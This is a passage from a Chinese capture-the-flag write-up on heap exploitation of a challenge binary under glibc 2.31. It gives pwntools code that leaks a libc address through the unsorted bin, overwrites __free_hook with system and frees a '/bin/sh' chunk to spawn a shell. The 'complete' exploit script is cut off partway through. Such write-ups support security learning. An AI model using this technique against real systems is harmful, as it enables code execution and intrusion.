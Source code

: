    ![image-20240713125228682](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131252839.png)

3. 两次申请得到该chunk，后向其写入"/bin/sh"并用system地址覆盖__free_hook，最后free掉该chunk即可拿到shell：

   ```python
   add(0x38,0,b'a')
   add(0x38,0,b'a')
   
   payload = b"/bin/sh\x00"+p64(system_addr)
   add(0x38,0,payload)
   free(0)
   p.sendline(b'cat flag')
   ```

4. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   # p = remote("node5.anna.nssctf.cn",22756)
   p = process("./pwn")
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')
   def add(size,index,context):
       p.sendlineafter(b'>',b'1')
       p.sendlineafter(b':',str(index).encode())
       p.sendlineafter(b':',str(size).encode())
       p.sendlineafter(b':',context)
   
   def free(index):
       p.sendlineafter(b'>',b'2')
       p.sendlineafter(b':',str(index).encode())
   
   def show(index):
       p.sendlineafter(b'>',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   # 溢出进unsortedbin
   for i in range(8):
       add(0x80,i,b'a')
   for i in range(7):
       free(i)
   add(0x38,8,b'a')
   free(7)
   show(7)
   #泄漏main_arena中的地址
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   #计算__free_hook和system地址
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   
   # 溢出进unsortedbin
   for i in range(10):
       add(0x38,i,b'a')
   ```